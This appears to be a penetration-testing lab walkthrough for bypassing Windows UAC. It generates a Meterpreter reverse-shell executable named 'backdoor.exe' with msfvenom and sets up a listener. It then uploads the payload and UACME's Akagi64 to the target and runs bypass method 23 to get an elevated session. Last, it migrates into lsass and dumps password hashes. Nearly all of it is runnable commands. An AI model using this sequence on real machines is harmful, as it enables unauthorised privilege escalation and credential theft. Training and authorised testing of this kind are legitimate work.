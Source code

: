 **Use of UACME**
- We are going to use the [option 23](https://github.com/hfiref0x/UACME#:~:text=added%20in%20v2.5.0-,Author%3A%20Leo%20Davidson%20derivative,-Type%3A%20Dll%20Hijack)
- The Akagi 64 executable has been provided
- What we need to do is to transfer it over to the target system and we will be able to use it.
- We can upload it directly from /root/Desktop/tools/UACME/
- Before that, we need to generate a Meterpreter payload using msfvenom. We will then transfer it to the target, use the Akagi executable with the key or Method 23, and execute the generated payload, which should bypass UAC.

1) Set up the listener

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_local_IP> LPORT=<local_port> -f exe > 'backdoor.exe'
ls
file backdoor.exe
# The next step is to set up our listener
msfconsole -q
# We need to setup our multi handler to receive the connection once the payload is executed on the target.
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT> # The same I've configured above
exploit
```

2) Transfer Akagi 64 over to the target system

```shell
# Back to the Meterpreter session (exit command from shell session)
pwd 
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe

shell
# Now, if we want to execute backdoor.exe with administrative privileges we need to use method 23.
# Note: Please provide the full path of the backdoor executable.
Akagi64.exe 23 "C:\Users\admin\AppData\Local\Temp\backdoor.exe"
# Once we execute the above command we would expect a meterpreter session.
# We have successfully gained high privilege access. Dump the user hashes.
pgrep lsass.exe
migrate <process_id>
hashdump

# Chek now:
sysinfo
getuid
getprivs # Now we have elevated privileges even though we have access to the main user.
```

**Example:**
